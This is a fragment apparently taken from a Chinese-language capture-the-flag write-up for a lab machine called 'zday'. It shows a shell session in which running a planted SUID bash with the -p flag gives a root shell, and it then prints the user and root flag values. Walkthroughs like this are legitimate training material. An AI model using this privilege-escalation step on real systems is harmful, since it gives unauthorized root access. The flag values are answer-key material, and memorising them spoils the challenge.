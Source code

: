 即可获得 root 权限

```bash
(remote) fogproject@zday:/home/fogproject$ /images/dev/bash -p
(remote) root@zday:/home/fogproject# whoami
root
```

## FLAG - USER

```flag title="/home/estas/user.txt"
whereihavebeen
```

## FLAG - ROOT

```flag title="/root/root.txt"
ihavebeenherealways
```
